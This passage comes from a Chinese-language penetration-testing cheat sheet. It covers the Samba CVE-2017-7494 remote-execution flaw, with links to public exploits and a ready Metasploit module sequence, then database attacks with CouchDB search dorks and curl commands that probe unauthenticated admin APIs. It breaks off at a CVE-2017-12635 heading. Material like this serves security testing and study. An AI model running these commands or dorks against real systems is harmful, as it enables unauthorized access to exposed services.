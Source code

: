 - 相关文章
    - [Linux cve-2017-7494samba远程漏洞利用和分析](https://bbs.pediy.com/thread-218114.htm)
    - [Samba 远程命令执行漏洞(CVE-2017-7494)](https://vulhub.org/#/environments/samba/CVE-2017-7494/)

- POC | Payload | exp
    - [joxeankoret/CVE-2017-7494](https://github.com/joxeankoret/CVE-2017-7494)
    - [opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494)

- MSF 模块
    ```bash
    use exploit/linux/samba/is_known_pipename
    set rhost [ip]
    set target 3
    run
    ```

---

# 数据库

**相关文章**
- [数据库利用 看这篇就好了](https://mp.weixin.qq.com/s/VgXOXVl-Bx2Vi8BYxdx3CA)

**相关工具**
- [SafeGroceryStore/MDUT](https://github.com/SafeGroceryStore/MDUT) - 数据库跨平台利用工具
    - https://www.yuque.com/u21224612/nezuig/ays2ai
- [Ryze-T/Sylas](https://github.com/Ryze-T/Sylas) - 数据库综合利用工具
    - https://paper.seebug.org/1836/

### CouchDB

Apache CouchDB 是一个开源数据库，专注于易用性和成为"完全拥抱 web 的数据库"。它是一个使用JSON作为存储格式，JavaScript 作为查询语言，MapReduce 和 HTTP 作为 API 的 NoSQL 数据库。应用广泛，如 BBC 用在其动态内容展示平台，Credit Suisse 用在其内部的商品部门的市场框架，Meebo，用在其社交平台（web 和应用程序）.

> shodan : "product:CouchDB"
> fofa ： app="APACHE-CouchDB"

**未授权访问漏洞**
- 描述

    默认会在 5984 端口开放 Restful 的 API 接口，如果使用 SSL 的话就会监听在 6984 端口，用于数据库的管理功能。其 HTTP Server 默认开启时没有进行验证，而且绑定在 0.0.0.0，所有用户均可通过 API 访问导致未授权访问。

    在官方配置文档中对 HTTP Server 的配置有 WWW-Authenticate：Set this option to trigger basic-auth popup on unauthorized requests，但是很多用户都没有这么配置，导致漏洞产生。

- 利用

    `http://[ip]:5984/_utils/`

    `curl http://[ip]:5984`

    `curl http://[ip]:5984/_config`

**CVE-2017-12635 垂直权限绕过漏洞**
- 描述
